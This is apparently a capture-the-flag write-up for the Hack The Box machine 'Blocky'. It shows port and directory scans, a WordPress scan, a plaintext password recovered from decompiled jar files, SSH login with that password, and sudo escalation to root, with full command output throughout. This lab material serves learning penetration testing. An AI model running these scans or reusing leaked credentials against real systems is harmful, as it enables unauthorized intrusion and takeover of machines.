 # Blocky

## Machine Info

![Blocky](./Blocky.assets/Blocky.png)

## Recon

- nmap

```console
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://blocky.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/.php                 (Status: 403) [Size: 289]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-login.php         (Status: 200) [Size: 2397]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 289]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://blocky.htb/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 298]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

![image-20240113231027046](./Blocky.assets/image-20240113231027046.png)

![image-20240113231036521](./Blocky.assets/image-20240113231036521.png)

## Foothold

### FTP -> nothing

### Wordpress Scan -> nothing

`$ wpscan -e ap,at,tt,cb,dbe,u,m --plugins-detection aggressive --url http://blocky.htb`

The command you've presented uses `wpscan`, which is a free and open source black box WordPress vulnerability scanner that can be used to scan WordPress websites for security issues.

Here's a breakdown of the command and its options:

- `wpscan`: This is the actual command to start the WPScan tool.

- `-e`: This option stands for `enumerate`, which tells WPScan to enumerate or list certain items on the WordPress site.

- `ap`: Enumerate all plugins.

- `at`: Enumerate all themes.

- `tt`: Enumerate timthumb files.

- `cb`: Enumerate config backups.

- `dbe`: Enumerate db exports.

- `u`: Enumerate users.

- `m`: Enumerate media (attachment files).

- `--plugins-detection`: This specifies the mode of detection for plugins. The `aggressive` value tells WPScan to use more aggressive methods to detect plugins which can include checking for items that exist in the source code of the website but may not be indexed by search engines or are not linked within the site's normal navigation.

- `--url`: This option specifies the URL of the WordPress website to scan. In this case, it's `

  http://blocky.htb

  `. This appears to be a URL that might be used for a local or internal network (as indicated by the `.htb` domain, commonly used for hack the box challenges or local testing environments), rather than a public website.

```console
[+] akismet
 | Location: http://blocky.htb/wp-content/plugins/akismet/
 | Last Updated: 2023-11-07T21:44:00.000Z
 | Readme: http://blocky.htb/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.3
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/, status: 200
 |
 | Version: 3.3.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
```

- [WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/37902) -> nothing

### Credit Leakage

- username: **NOTCH**

![image-20240113231300154](./Blocky.assets/image-20240113231300154.png)

- jar files

![image-20240113231327255](./Blocky.assets/image-20240113231327255.png)

![image-20240113231331505](./Blocky.assets/image-20240113231331505.png)

- `notch:8YsqfCTnvxAUeduzjNSXe22` -> **SSH**

```console
$ ssh notch@$IP
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

## Privilege Escalation

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# uname -a
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
root@Blocky:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:44:30 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.37/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4430/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> sensitive jar files -> jd-gui -> cred -> ssh -> sudo -l -> root shell
